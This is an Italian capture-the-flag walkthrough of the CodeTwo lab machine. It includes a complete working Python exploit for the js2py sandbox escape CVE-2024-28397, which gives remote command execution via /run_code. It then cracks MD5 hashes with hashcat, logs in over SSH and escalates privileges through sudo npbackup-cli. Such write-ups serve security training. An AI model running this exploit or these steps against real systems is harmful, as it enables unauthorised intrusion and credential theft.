# CodeTwo



## Reconnaissance

Si inizia con una scansione **NMAP**.



Oltre al servizio **SSH** e' presente anche un server **Gunicorn v20.0.4** raggiungibile tramite http alla porta **8000**.

> Gunicorn e' un Python WSGI HTTP Server per UNIX.

Si visita con il browser l'URL **http://10.x.x.x:8000**.



L'applicazione web dovrebbe offrire la possibilita' di salvare e eseguire codice **JavaScript**.

E' possibile registrarsi ed accedere al proprio profilo seguendo rispettivamente questi URLs:

- **http://10.x.x.x:8000/register**

- **http://10.x.x.x:8000/login**

Mentre, da **http://10.x.x.x:8000/download** e' possibile scaricare il file **app.zip**.

Si scarica ed ispeziona il contenuto del file.

```bash

$ curl -Go app.zip http://10.x.x.x:8000/download 

$ unzip app.zip -x app/

```



Il file **requirements.txt** contiene le dipendenze che utilizza l'applicazione.

```text

flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74

``` 

> js2py e' un **JavaScript to Python Translator & JavaScript interpreter**.
> 
> [https://github.com/PiotrDabkowski/Js2Py](https://github.com/PiotrDabkowski/Js2Py)
 
Inoltre, e' presente il file **instance/users.db** 



Tuttavia, il database e' vuoto.

Mentre, il file **app.py** contiene il codice sorgente dell'appliazione web.

Lo studio del codice di *app.py* viene accompagnato dal diretto utilizzo della web-app, procedendo con la registrazione come **user:user**.



E' possibile scrivere, eseguire e memorizzare codice scritto con il linguaggio **JavaScript**.



Dal codice sorgente in *app.py* si individua **/run_code** che dietro le quinte si basa sul metodo **eval_js** della libreria js2py per interpretare il codice **JS** fornito dall'utente.



Si individua la **CVE-2024-28397** che coinsiste in una **sandbox escape** per **js2py**, con il bypass della restrizione **pyimport** (`js2py.disable_pyimport()`).

Requisiti:

- **js2py<=0.74**.

- **Python 3**, poiche' il framework *flask v3.0.3* e' compatibile per questa versione di Python.

> E' disponibile una **PoC** [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/tree/main](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape) presa come riferimento.

Lo script **exploit** permette di inoltrare una richiesta POST a */run_code* e di ottenere un riferimento a un oggetto Python nell'ambiente js2py, in modo tale da uscire dall'ambiente JS ed eseguire comandi arbitrari (**Remote Code Execution (RCE)**).

```python3

#!/usr/bin/python3
from argparse import ArgumentParser

if __name__ == "__main__":
    parser = ArgumentParser(prog="js2py (RCE) - exploit")
    parser.add_argument("-t", "--target", help="Target ipaddress:port", type=str, required=True)
    parser.add_argument("-c", "--command", help="Remote command to execute", type=str, required=True)
    parser.add_argument("-s", "--session", help="Session", type=str)

args = parser.parse_args()

target = args.target
cmd = args.command
session = args.session

import requests

payload = f'''
function exploit(cmd) {{
    let a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__
    const obj = a(a(a,"__class__"), "__base__").__subclasses__()
    for (let i = 0; i < obj.length; i++) {{
        if (obj[i].__module__ == "subprocess" && obj[i].__name__ == "Popen") {{
            let Popen = obj[i]
            let p = Popen(cmd)
            let res = p.communicate()
            return p.pid
        }}
    }}
    return -1
}}

const cmd = ["/bin/bash","-c","{cmd}"]
exploit(cmd)
'''

json = { "code": payload }
cookies = {"session": session }
url = f"http://{target}/run_code"

response = requests.post(url, cookies=cookies, json=json)

print("\n========== js2py RCE =========\n")
print("Response: " + response.text)
print("\n==============================\n")

```

Si lancia lo script per far eseguire sulla macchina vittima il comando **curl**.


Funziona!!!

Allora si prova ad ottenere una **reverse shell**.



Si e' acceduti come utente **app**. 

Sono presenti le stesse risorse di **app.zip**, quindi, si ispeziona il contenuto di **instance/users.db** e si ottengono i seguenti records:

```text

> SELECT * FROM user;

1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e

```

Da *app.py* si vede che alle password viene applicato **MD5**.



Si utilizza **HashCat** per craccare le password.

```bash

$ cat users.hash                                                                                                                                                                                                                                         
649c9d65a206a75f5abe509fe128bce5                                                                                                                                                                                                                           
a97588c0e2fa3a024876339e27aeb42e 

$ hashcat -a 0 -m 0 users.hash /usr/share/wordlists/rockyou.txt.gz
649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
 
```

Si ottengono le credenziali `marco:sweetangelbabylove`.

Si tenta l'accesso tramite **SSH**.

```bash

$ ssh marco@10.x.x.x

```

Funziona!



Si ottiene la flag `user.txt`.

- **19aa95eb23e9fc8c26d6da4703b6a72f**



L'utente *marco* ha i privilegi di eseguire con **sudo** il programma **/usr/local/bin/npbackup-cli**.

> npbackup e' una una soluzione di backup dei file caratterizzata da interfaccia CLI e GUI. [https://github.com/netinvent/npbackup](https://github.com/netinvent/npbackup)

L'idea e' quella di sfruttare questo programma con alti privilegi per accedere a contenuto altrettanto privilegiato, come **/root**.

Leggendo l'**help** del comando **npbackup-cli** si comprende come utilizzare il software.

```bash

$ sudo /usr/local/bin/npbackup-cli --help
  -c CONFIG_FILE, --config-file CONFIG_FILE                                                                                                                                                                                                                
                        Path to alternative configuration file (defaults to current dir/npbackup.conf) 
  -b, --backup          Run a backup                                                                                                                                                                                                                       
  -s, --snapshots       Show current snapshots                                                                                                                                                                                                             
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is used     
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with --dump [file], add --snapshot-id to specify a snapshot other than latest

```

Si utilizza il file di configurazione gia' presente **npbackup.conf** e si tenta la **Privilege Escalation** modificando il **path** a **/root**.





Catturata!!!

- **ed5839ff76e88af097713303adf99298**

---
